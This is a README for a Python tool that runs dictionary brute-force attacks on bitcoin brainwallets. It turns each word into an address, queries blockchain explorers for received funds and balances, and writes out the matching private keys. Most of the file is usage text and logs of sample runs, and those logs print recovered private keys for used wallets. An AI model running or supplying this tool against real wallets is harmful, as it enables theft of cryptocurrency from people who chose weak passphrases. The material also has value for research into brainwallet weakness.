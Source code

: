 bruteforce-bitcoin-brainwallet
==============================

A python script that performs a bruteforce dictionary attack on brainwallets. It takes a dictionary input file and converts each line into a bitcoin address. A lookup of this address is done either using a local [Abe](https://github.com/jtobey/bitcoin-abe)
 instance, blockchain.info, or insight.bitpay.com to see if any bitcoins have ever been received by this address. If so, it will do one more check
 to see the current balance for the bitcoin address.

#Requirements
* Dictionary file in UTF-8 format (***other formats NOT SUPPORTED***)
* Python 2.7 (***3.x NOT SUPPORTED***), requests, coinkit
<pre>
pip install -r requirements.txt
</pre>

#Usage
```
usage: bbb.py [-h] -t TYPE -d DICT_FILE -o OUTPUT_FILE [-s SERVER] [-p PORT]
              [-c CHAIN] [-k] [--version]

A script to perform bruteforce dictionary attacks on brainwallets.

optional arguments:
  -h, --help      show this help message and exit
  -t TYPE         Blockchain lookup type (abe|blockchaininfo|insight)
  -d DICT_FILE    Dictionary file (e.g. dictionary.txt)
  -o OUTPUT_FILE  Output file (e.g. output.txt)
  -s SERVER       Abe server address (e.g. localhost)
  -p PORT         Abe port (e.g. 2751)
  -c CHAIN        Abe chain string (e.g. Bitcoin)
  -k              treat each word as a hex or wif encoded private key, not as
                  brain wallet
  --version       show program's version number and exit
```

#Abe example
```
python bbb.py -t abe -d dictionary.txt -o found.txt -s 127.0.0.1 -p 2751 -c Bitcoin
2014-04-03 21:24:37,552 INFO   line 59   Opening session for abe
2014-04-03 21:24:37,552 INFO   line 17   Opening new session to http://127.0.0.1:2751
2014-04-03 21:24:37,563 INFO   line 171  Starting new HTTP connection (1): 127.0.0.1
2014-04-03 21:24:37,749 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:24:37,749 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:24:37,750 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:24:38,490 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```

#Insight example
```
python bbb.py -t insight -d dictionary.txt -o found.txt
2014-09-11 20:34:17,863 INFO   line 62   Opening session for insight
2014-09-11 20:34:17,863 INFO   line 20   Opening new session to https://insight.bitpay.com
2014-09-11 20:34:17,876 INFO   line 696  Starting new HTTPS connection (1): insight.bitpay.com
2014-09-11 20:34:18,419 INFO   line 67   Opening dictionary file dictionary.txt and validating encoding is utf-8
2014-09-11 20:34:18,419 INFO   line 78   Opening dictionary file dictionary.txt for reading
2014-09-11 20:34:18,419 INFO   line 81   Opening file with encoding utf-8
2014-09-11 20:34:18,419 INFO   line 90   Opening output file found4.txt for writing
2014-09-11 20:34:18,419 INFO   line 93   dictionary word, received bitcoins, wallet address, private address, current balance
2014-09-11 20:34:22,654 INFO   line 153  Found used brainwallet: a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000

```

#Private key dictionary example
    This is also known as secret exponent, mixed hex and wif format.
```
python bbb.py -d keys.txt -t insight -o found.txt -k
2014-09-16 12:13:55,301 INFO   line 64   Opening session for insight
2014-09-16 12:13:55,301 INFO   line 20   Opening new session to https://insight.bitpay.com
2014-09-16 12:13:55,338 INFO   line 696  Starting new HTTPS connection (1): insight.bitpay.com
2014-09-16 12:14:09,152 INFO   line 69   Opening dictionary file keys.txt and validating encoding is utf-8
2014-09-16 12:14:09,153 INFO   line 80   Opening dictionary file keys.txt for reading
2014-09-16 12:14:09,154 INFO   line 83   Opening file with encoding utf-8
2014-09-16 12:14:09,155 INFO   line 92   Opening output file found.txt for writing
2014-09-16 12:14:09,155 INFO   line 95   dictionary word, received bitcoins, wallet address, private address, current balance
2014-09-16 12:14:23,951 INFO   line 155  Found used wallet: 6d88fd5f906a89858aca2a963d82d6e36cdf409871a88f6e79749ba21f021421,0.00005460,18XHQxYKXeXdiJzi5Z5XTojzeY3xHAoLCA,6d88fd5f906a89858aca2a963d82d6e36cdf409871a88f6e79749ba21f021421,0.00000000
```

#Blockchain.info example
    Note: there is a 10 second wait between API calls to respect blockchain.info limits.
```
python bbb.py -t blockchaininfo -d dictionary.txt -o found.txt
2014-04-03 21:38:48,893 INFO   line 100  Note there is a 10 second wait between each API call to respect posted limits
2014-04-03 21:38:48,893 INFO   line 59   Opening session for blockchaininfo
2014-04-03 21:38:48,893 INFO   line 18   Opening new session to http://blockchain.info
2014-04-03 21:38:48,903 INFO   line 171  Starting new HTTP connection (1): blockchain.info
2014-04-03 21:38:49,672 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:38:49,673 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:38:49,673 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:40:02,313 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```

```
